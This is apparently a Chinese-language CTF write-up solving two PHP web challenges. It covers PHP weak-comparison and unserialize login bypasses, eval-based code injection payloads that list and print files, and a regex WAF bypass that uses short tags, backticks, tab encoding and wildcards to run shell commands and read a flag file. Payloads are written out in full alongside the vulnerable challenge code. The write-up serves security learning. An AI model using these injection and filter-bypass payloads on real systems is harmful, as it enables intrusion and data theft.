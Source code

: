 ```yaml
---
title:  第三次nep笔记
---
```


## 总结比赛的两道web题

## web1

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/10.png)

首先要使$login=true，想到的是md5弱类型比较，查看str_shuffle函数的用法，是随机地打乱字符串中的所有字符。如果是md5加密绕过的话，想到的是0e开头绕过和传入数组绕过。但是str_shuffle打乱之后这两种思路都行不通。试图查看str_shuffle函数有没有漏洞，没有找到。

接下来继续观察， $unserialize_str这个函数是可控的，它与$username弱类型比较的值要为真，而$username是不可控的，查看弱类型比较还有什么可以利用的地方，发现可以利用0与字符串弱类型比较的结果也为0（这里要注意的是，第一个字符不能为数字），到这里就清楚了，md5在这里就是混淆视线的，我们可以把$username，$password视为随机值。

那么接下来要思考的是，怎样让$unserialize_str['username']和$unserialize_str['password']的值为0

注意到 unserialize函数，想到反序列化漏洞，但是在反序列化漏洞中没有找到可以利用的地方。

还是继续从弱类型比较入手，PHP弱类型 - 简书  https://www.jianshu.com/p/90d235d4f745

在这篇文章中找到

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/13.png)

这里的json_decode函数让我联想到了unserialize函数，都是可以触发反序列化漏洞的函数。

这里的payload为 item={"key":0}，尝试构造这到题的payload，没有成功。

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/14.png)

继续找弱类型，发现这篇文章，ctf常见php弱类型分析_词语大杂烩-CSDN博客_ctf弱类型  https://blog.csdn.net/qq3401247010/article/details/77867399

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/15.png)

发现这道题的payload用的是数组的方法，unserialize函数在数组中不会报错。

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/16.png)

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/11.png)

接着绕过正则，https://blog.csdn.net/silence1_/article/details/102835743参考了这篇文章，构造payload

```
?str=a:2:{s:8:%22username%22;i:0;s:8:%22password%22;i:0;}&code=eval(end(current(get_defined_vars())));&b=var_dump(highlight_file(end(scandir(pos(localeconv())))));
```

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/12.png)

看了wp发现，这道题还有更好的解法，由于php是弱类型语⾔，所以bool值为true的变量和任何变量⽐较都相等，除了0和false

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/24.png)

这样，我们构造的payload就不会跟第一个种解法一样具有不确定性

wp还给出了利用三角函数构造点

查看php版本

```php
?str=a:2:{s:8:"username";b:1;s:8:"password";b:1;}&code=phpinfo();
```

版本号为： 7.2.24

phpversion() 返回 7.2.24-0ubuntu0.18.04.7

```php
floor(phpversion()) 返回 7

sin(floor(phpversion())) 返回 0.65698659871879sin(sin(floor(phpversion()))) 返回 0.61073350824527

cos(sin(sin(floor(phpversion())))) 返回 0.81922759437835

rad2deg(cos(sin(sin(floor(phpversion()))))) 返回 46.938283618535

floor(rad2deg(cos(sin(sin(floor(phpversion())))))) 返回 46
```

这样便构造出 46 了

返回

flag在 this_is_flag.php 中，刚好在最后⼀个⽂件，通过 end() 读取最后⼀个⽂件，再通过

show_source() 打印，这样就得到最终的payload：

```php
?str=a:2:
{s:8:"username";b:1;s:8:"password";b:1;}&code=show_source(end(scandir(chr(floor
(rad2deg(cos(sin(sin(floor(phpversion()))))))))));
```

```php
php 5.x
?
code=var_dump(scandir(chr(floor(rad2deg(sin(cos(cos(floor(phpversion())))))))))
;?
code=show_source(end(scandir(chr(floor(rad2deg(sin(cos(cos(floor(phpversion()))
))))))))
```

## web2

```php
<?
$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

$_SERVER["REMOTE_ADDR"] 为获取'获取IP

$a ?? 0 等同于 isset($a) ? $a : 0

$a ?: 0 等同于 $a ? $a : 0

可得$_GET["action"] ?? "" 等同于isset($attion) ? $attion : ""

我们的目的就是要让$action='upload',执行file_put_contents函数

$dir并不是我们能控制的，也就是file_put_contents函数打开的文件路径是固定的，这里我在本地测试的时候遇到一个问题，文件名中不能含有'/'

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/17.png)

既然名不能有'/',我一开始想到的是注释，但是行不通，然后是文件流，base64编码，但是由于$dir不是我们能控制的，所以都行不通。接着发现mkdir函数在创建文件目录或文件是也不能有'/'等特殊符号，如何存在'/'，'/'前面会被当成创建文件目录处理。而这道题中刚好有有mkdir函数`if(!file_exists($dir)){ mkdir($dir);}`

只要执行mkdir函数，file_put_contents函数打开的文件路径就不会报错了。

这道题还需要注意，在本地测试ip地址是127.0.0.1，而这道题不是，所以在本地和这道题产生的文件名是不一样的，这道题的文件名可以通过让$action=pwd,打印出$dir,也就是file_put_contents函数打开的文件路径。

接下来考虑的是$data变量，因为file_put_contents函数打开的文件后缀为php，也就是如果$data为输入php格式，可以执行php代码。

这里 waf($data)调用了两个函数

```php
 error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}
```

isArray() 方法用于判断一个对象是否为数组。如果对象是数组返回 true，否则返回 false。我们刚才分析$data的内容应该是php文件的格式，所以不会是一个数组。观察 check方法

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/19.png)

php被过滤，我们可以采用短标签的格式，`<?=  ?>`

到这里一开始的想法是构造一句话木马，但是这些符号被过滤了，构造失败

```
_  ^  ~  ;  { }
```

然后发现反引号没有被过滤，可以构造<?= %09`dir`?>

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/20.png)

这里空格被过滤，用%09代替。

这里当前目录只有index.php,一开始的想法是通过返回上级目录查看内容，也就是`cd%09..&&ls`,但发现没有执行成功，最后是通过返回根目录

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/21.png)

可以看出最后xxxaf14gss.php即为我们想找的文件，cat  /xxxaf14gss.php，php被过滤，用*绕过

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/22.png)

